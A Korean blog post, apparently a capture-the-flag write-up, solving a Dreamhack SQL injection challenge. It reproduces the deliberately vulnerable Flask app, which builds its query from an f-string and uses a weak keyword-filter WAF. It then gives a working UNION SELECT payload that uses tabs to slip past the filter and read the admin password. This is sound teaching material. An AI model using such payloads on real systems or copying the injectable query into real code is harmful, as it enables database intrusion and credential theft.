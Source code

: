 ```yaml
---
title: (8) Dreamhack sql injection bypass WAF 문제 풀이
date: 2024-01-12 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
사이트에 들어가면 이렇게 생겼습니다.
![](https://kyuyeop.github.io/assets/img/post/8/1.png)
먼저 init.sql입니다.
```sql
# init.sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
FLUSH PRIVILEGES;
```
이걸 실행하면 db에 아래와 같은 데이터가 생길겁니다.
{% endraw %}
|idx|uid|upw|
|:---:|:---:|:---:|
|0|abcde|12345|
|1|admin|DH\{...\}|
|2|guest|guest|
|3|test|test|
|4|dream|hack|
{% raw %}
일단 admin을 넣어봅시다.
![](https://kyuyeop.github.io/assets/img/post/8/2.png)
막혔다고 뜹니다. 다른 값은 어떤지 보겠습니다. guest를 넣으면
![](https://kyuyeop.github.io/assets/img/post/8/3.png)
guest가 출력됩니다.  
  
어떤 로직으로 돌아가는지 확인해 보겠습니다.
```python
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
코드를 보면 일부 문자열을 필터링하고 있는데, 전부 소문자만 필터링하는점, 그리고 \\t 즉 탭을 막고 있지 않다는 점이 눈에 띄네요. 스페이스를 필터링하므로 탭을 대신 사용해야 합니다. 참고로 \*이나 /를 막지 않고 있다면 주석 구문인 /\*\*/를 이용하면 스페이스를 대신할 수 있니다.  
  
그럼 바로 공격 구문을 짜 봅시다.
```
' UNION SELECT  null,upw,null FROM  user  LIMIT 1,1#
```
앞쪽 결과는 중요하지 않으니 아무값도 넘겨주지 않고요, union을 이용해서 뒤에 있는 구문만 살렸습니다.  
admin을 막고 있으니 limit 1,1을 이용해 admin을 선택해 주었습니다. 그리고 중요한 점은 모든 공백은 탭 입니다.

여기서 조심할 부분이 또 있는데, 바로 null,upw,null 부분입니다.  
union을 사용할때 앞 sql문의 반환값과 뒤 sql문의 column 수가 같아야 에러가 안납니다.  
저 코드를 uid에 넣고 실행하면
![](https://kyuyeop.github.io/assets/img/post/8/4.png)
flag가 출력됩니다.
{% endraw %}